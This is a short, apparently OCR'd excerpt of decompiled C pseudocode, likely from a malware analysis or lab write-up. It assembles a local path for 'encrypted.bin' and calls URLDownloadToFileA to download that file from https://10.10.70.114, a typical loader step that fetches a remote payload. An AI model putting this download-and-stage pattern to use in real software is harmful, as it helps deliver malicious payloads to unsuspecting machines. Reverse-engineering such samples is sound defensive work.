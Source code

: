 ```c=
    v7 = 260 - v5;
    if ( v5 )
    {
      v8 = &v40[v7];
      v9 = 260 - v7;
      if ( v7 != 260 )
      {
        v10 = 2147483646LL;
        v11 = ("\\encrypted.bin" - v8);
        do
        {
          if ( !v10 )
            break;
          v12 = v8[v11];
          if ( !v12 )
            break;
          *v8 = v12;
          --v10;
          ++v8;
          --v9;
        }
        while ( v9 );
      }
      v13 = v8 - 1;
      if ( v9 )
        v13 = v8;
      *v13 = 0;
    }
    URLDownloadToFileA(0LL, "https://10.10.70.114/encrypted.bin", v40, 0, 0LL);
  }
  v14 = 260LL;
  v15 = v41;
  do
  {
    if ( v14 == -2147483386 )
      break;
    v16 = v15[pszPath - v41];
    if ( !v16 )
      break;
    *v15++ = v16;
    --v14;
  }
  while ( v14 );
  v17 = v15 - 1;
  if ( v14 )
    v17 = v15;
  v18 = 260LL;
  *v17 = 0;
  v19 = v41;
  do
  {
    if ( !*v19 )
      break;
    ++v19;
    --v18;
  }
  while ( v18 );
  v20 = 260 - v18;
  if ( v18 )
  {
    v21 = &v41[v20];
    v22 = 260 - v20;
    if ( v20 != 260 )
```